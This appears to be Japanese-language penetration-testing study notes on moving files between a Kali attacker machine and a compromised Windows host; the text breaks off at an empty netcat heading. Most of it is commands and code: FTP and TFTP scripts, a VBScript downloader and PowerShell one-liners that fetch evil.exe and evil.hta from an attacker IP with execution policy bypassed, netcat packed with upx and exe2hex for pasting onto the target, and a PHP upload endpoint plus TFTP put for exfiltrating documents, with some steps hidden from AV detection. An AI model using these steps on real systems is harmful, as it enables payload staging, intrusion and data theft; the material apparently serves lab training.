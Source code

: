 # FileTransfer

### windowsにftpでファイル転送

* kaliにFTPサーバーを立てる

  ```
  sudo apt update && sudo apt install pure-ftpd
  ```

  * 以下スクリプトでユーザ登録

    ```bash
    kali@kali:~$ cat ./setup-ftp.sh
    #!/bin/bash
    
    sudo groupadd ftpgroup
    sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
    sudo pure-pw useradd offsec -u ftpuser -d /ftphome
    sudo pure-pw mkdb
    cd /etc/pure-ftpd/auth/
    sudo ln -s ../conf/PureDB 60pdb
    sudo mkdir -p /ftphome
    sudo chown -R ftpuser:ftpgroup /ftphome/
    sudo systemctl restart pure-ftpd
    ```

  ```bash
  sudo systemctl status pure-ftpd
  sudo systemctl start pure-ftpd
  ```

* 転送するファイルを/ftphome配下に転送する

  ```
  sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
  ls /ftphome/ 
  ```

* windowsで取得する

  ```cmd
  C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
  C:\Users\offsec>echo USER offsec>> ftp.txt
  C:\Users\offsec>echo lab>> ftp.txt
  C:\Users\offsec>echo bin >> ftp.txt
  C:\Users\offsec>echo GET nc.exe >> ftp.txt
  C:\Users\offsec>echo bye >> ftp.txt
  
  C:\Users\offsec> ftp -v -n -s:ftp.txt
  ```

  ```
  echo open 10.11.0.4 21> ftp.txt
  echo USER offsec>> ftp.txt
  echo lab>> ftp.txt
  echo bin >> ftp.txt
  echo GET try-harder.mp3 >> ftp.txt
  echo bye >> ftp.txt
  ```
  
  

### VBScriptを利用したファイル転送

以下簡易wgetを作成する

```cmd
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs
```

cscriptを実行する

```
cscript wget.vbs http://192.168.119.144/evil.exe evil.exe
```



### powershell

psファイルを作成する

```cmd
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.119.144/evil.hta" >>wget.ps1
echo $file = "evil.hta" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

実行する

```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

* -ExecutionPolicy Bypass：PowerShellスクリプトの実行を許可 (デフォルトでは制限)。
* -NoLogo -NonInteractive：PowerShell のロゴバナーを非表示にし、PowerShell の対話型プロンプトを抑制する
* NoProfileキーワード：PowerShellがデフォルトのプロファイルをロードしないようにし（これは必要ない）



ワンライナーバージョン

```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.144:5555/index.html', 'new-exploit.exe')
```



##### ダウンロードせずに実行する場合は・・・

AVに検知されるので画像

![image-20230105081915662](img/FileTransfers/image-20230105081915662.png)



### nc.exeの配送

nc.exeをコピー

```
locate nc.exe | grep binaries
cp /usr/share/windows-resources/binaries/nc.exe .
ls -lh nc.exe
```

パッカーで圧縮

```
upx -9 nc.exe
ls -lh nc.exe
```

exe2hexでWindowsスクリプトに変換

```
exe2hex -x nc.exe -p nc.cmd
```

nc.cmdをcatし全コピーし、攻撃対象ホストに貼り付け（windows)

ncコマンドを確認する

```
nc -h
```

![image-20230105091227664](img/FileTransfers/image-20230105091227664.png)



### ファイル出力（php+ps)　

Windows7およびWindows Server 2008 R2以降で動作

* kaliでapache2を起動しupload.phpを作成する

  ```
  <?php
  $uploaddir = '/var/www/uploads/';
  
  $uploadfile = $uploaddir . $_FILES['file']['name'];
  
  move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
  ?>
  ```

  ```
  sudo vi /var/www/html/upload.php   
  ```

* uploadsディレクトリを作成する

  ```
  sudo mkdir /var/www/uploads
  ps -ef | grep apache
  sudo chown www-data: /var/www/uploads
  ls -la /var/www/
  ```

* 攻撃対象ホストでpowershell実行する

  AVに検知されるので画像で

  ![image-20230105092640035](img/FileTransfers/image-20230105092640035.png)



### ファイル出力（TFTP)

* kaliでTFTPサーバーを立ち上げる

  ```
  sudo apt update && sudo apt install atftp
  sudo mkdir /tftp
  sudo chown nobody: /tftp
  sudo atftpd --daemon --port 69 /tftp
  ```

* tftpで出力する

  ```
  tftp -i 10.11.0.4 put important.docx
  ```

  

### ファイル出力（nc)

